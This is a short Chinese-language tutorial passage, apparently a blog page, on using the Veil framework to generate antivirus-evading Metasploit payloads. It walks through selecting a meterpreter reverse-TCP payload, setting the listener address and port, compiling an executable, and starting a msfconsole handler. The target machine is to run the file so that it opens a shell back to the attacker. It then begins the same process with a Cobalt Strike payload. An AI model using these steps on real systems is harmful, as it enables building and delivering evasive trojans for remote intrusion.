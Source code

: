   * Ordnance可生成shellcode

###  

### 生成msf免杀payload

  

  
| `进入Evasion  
use 1`  
---|---  
  
![](https://gitee.com/fuli009/images/raw/master/public/20210810100653.png)

  

`查看可用的payloads  
list payloads`  

![](https://gitee.com/fuli009/images/raw/master/public/20210810100654.png)

  

`选择要使用的payloads，如选择ruby的meterpreter/rev_tcp  
use 39`  
`设置监听ip和端口  
set lhost xx.xx.xx.xx  
set lport 4444`  

![](https://gitee.com/fuli009/images/raw/master/public/20210810100655.png)

  

`生成可执行文件并取名test  
generate  
test  
由于刚才配置了映射路径，可执行文件被生成在本机的/tmp/veil-output/compiled路径下，对应的msf的配置文件被生成在/tmp/veil-
output/handlers路径下  
  
在本地使用msf配置文件开启msf监听  
msfconsole -r test.rc  
  
将test.exe传入目标机器，并运行，反弹回shell`  

### 使用自定义payload生成免杀木马

  

使用cs的payload为例

  

首先在cs的界面，攻击-生成后门-payload generator-veil，保存为payload.txt

开启veil，之前步骤同上

  

`选择13号payload  
generate`  
